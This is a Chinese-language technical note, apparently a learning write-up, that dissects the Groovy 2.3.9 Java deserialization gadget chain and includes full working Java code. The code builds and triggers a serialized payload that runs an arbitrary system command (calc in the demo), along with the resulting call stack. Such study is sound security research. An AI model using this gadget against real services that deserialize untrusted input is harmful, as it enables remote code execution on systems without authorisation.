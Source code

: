 
- 测试Grovvy 版本 v2.3.9 


### InvocationHandler 接口

![image-20211108103208739](jar_groovy.assets/image-20211108103208739-16395903238381.png)

#### AnnotationInvocationHandler 类

- 实现了InvocaHandler接口

![image-20211215232032453](jar_groovy.assets/image-20211215232032453-16395903266652.png)

##### 构造方法 AnnotationInvocationHandler

- sun.reflect.annotation.AnnotationInvocationHandler#AnnotationInvocationHandler
  - 参数
    - Annotation 类型
    - Map 类型

![image-20211215234351142](jar_groovy.assets/image-20211215234351142-16395903291333.png)

##### 成员方法 readObject

- sun.reflect.annotation.AnnotationInvocationHandler#readObject
  - 该方法被反序列化时一定会被调用

![image-20211215232209050](jar_groovy.assets/image-20211215232209050-16395903359864.png)

361行：执行了memberValues 属性的 entrySet 方法。

##### 属性 memberValues

- sun.reflect.annotation.AnnotationInvocationHandler#memberValues

#### ConversionHandler 类

- 实现了 InvocationHandler接口

![image-20211108103242423](jar_groovy.assets/image-20211108103242423.png)

##### 成员方法 invoke

![image-20211108103517041](jar_groovy.assets/image-20211108103517041.png)

#### ConvertedClosure 类

- 这个类是一个通用的适配器，用来适配一个闭包到任意的Java接口

![image-20211108103833882](jar_groovy.assets/image-20211108103833882.png)

##### 成员方法 invokeCustom

- org.codehaus.groovy.runtime.ConvertedClosure#invokeCustom
  - ConvertedClosure的method参数必须等于触发动态代理时调用的方法名

![image-20211108103854979](jar_groovy.assets/image-20211108103854979.png)

### Closure 抽象类

![image-20211215233015850](jar_groovy.assets/image-20211215233015850.png)

#### MethodClosure 类

- org.codehaus.groovy.runtime.MethodClosure
  - 使用一个闭包表示的一个类上的方法，这个方法可以在任何时候被调用

![image-20211214204856501](jar_groovy.assets/image-20211214204856501.png)

##### 成员方法 doCall

- 通过方法 `InvokerHelper.invokeMethod()` 进行方法调用

```java
package groovy;

import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class doCall {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
        Method doCallM  = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
        doCallM.setAccessible(true);
        doCallM.invoke(methodClosure, "calc");
    }
}
```

可反射调用执行系统命令，如下图：

![image-20211215225939460](jar_groovy.assets/image-20211215225939460.png)





前置知识

- Groovy执行命令的语法：`"command".execute()`

- 当通过动态代理对象调用一个方法时候，该方法的调用就会被转发到实现InvocationHandler接口类的invoke方法来调用

- newProxyInstance方法的三个参数：

  - loader:  用哪个类加载器去加载代理对象
  - interfaces:  动态代理类需要实现的接口

  - h:  动态代理方法在执行时，会调用h里面的invoke方法去执行



构造payload

```java
// 对cmd字符串执行execute命令的闭包
MethodClosure methodClosure = new MethodClosure(cmd,"execute");
// 适配entrySet方法的ConvertedClosure闭包
ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
// 创建动态代理
Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
// 创建AnnotationInvocationHandler实例（通过反射）
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
```

解释如下：

当annotationInvocationHandler对象的序列化数据被反序列化时，会调用readObject()

- readObject() 调用 memberValues.entrySet()
  - ConversionHandler.Invoke() 调用 ConvertedClosure.invokeCustom()
    - getDelegate()).call() 调用 getMetaClass().invokeMethod() // 递归调用
      - method.doMethodInvoke() 调用 ProcessGroovyMethods.execute()
        - Runtime.getRuntime().exec()

最终gadget如下

```java
import java.io.*;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.lang.reflect.Constructor;
import java.lang.annotation.Retention;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

public class Groovy_entrySet {
    public static void main(String[] args){
        Groovy_entrySet.generatePayload("calc");
    }
    public static void generatePayload(String cmd){
        try{
            MethodClosure methodClosure = new MethodClosure(cmd,"execute");
            ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
            Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor constructor = clazz.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
            ByteArrayOutputStream byteArray = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArray);
            objectOutputStream.writeObject(annotationInvocationHandler);
            objectOutputStream.close();
            /**
             * 笔记：打印字节数组
             *       System.out.print(Arrays.toString(data));
             */
            byte[] data = byteArray.toByteArray();
            // 将字节数组反序列化为对象
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果

![image-20211216014448682](jar_groovy.assets/image-20211216014448682.png)

调用栈

```java
execute:530, ProcessGroovyMethods (org.codehaus.groovy.runtime)
doMethodInvoke:-1, dgm$748 (org.codehaus.groovy.runtime)
invokeMethod:1207, MetaClassImpl (groovy.lang)
invokeMethod:1074, MetaClassImpl (groovy.lang)
invokeMethod:1016, MetaClassImpl (groovy.lang)
call:423, Closure (groovy.lang)
invokeCustom:51, ConvertedClosure (org.codehaus.groovy.runtime)
invoke:103, ConversionHandler (org.codehaus.groovy.runtime)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:2122, ObjectInputStream (java.io)
readOrdinaryObject:2013, ObjectInputStream (java.io)
readObject0:1535, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
generatePayload:37, Groovy_entrySet (groovy)
main:14, Groovy_entrySet (groovy)
```
